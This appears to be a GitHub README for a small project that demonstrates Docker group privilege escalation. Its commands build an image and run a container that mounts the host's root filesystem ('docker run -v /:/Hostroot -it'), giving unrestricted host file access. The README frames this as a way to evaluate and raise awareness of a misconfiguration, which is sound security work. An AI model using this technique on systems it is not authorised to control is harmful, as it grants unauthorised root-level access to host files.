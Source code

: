 # Docker Privilege Escalation
This project helps to evaluate how docker group access could be exploited to gain unrestricted file access to the host machine.

As per Docker, to use docker command either a user needs to be a sudo group member or should have access to docker group.
When a system trusts a user with sudo membership, it assumes the fact that the user has administrative privileges. However, the same notion is not been yet shared with most developers that the user within a docker group could access the unrestricted paths and files on the host machine from the container spawned by his privileges.

```
git clone https://github.com/jigerjain/Docker_Privesc.git
cd Docker_Privesc/
docker build -t application .
./exploit.sh

Running docker
You could access the root folder of the system machine under /Hostroot folder

```

## Command
docker build would create an image "application" from the configuration file "Dockerfile"

## Insight
exploit.sh file contains a docker command which would mount the path "/" to the folder "/Hostroot/" on the running container; -i flag would help to gain an interactive access to the spawned container.
```
docker run -v /:/Hostroot -it application
```





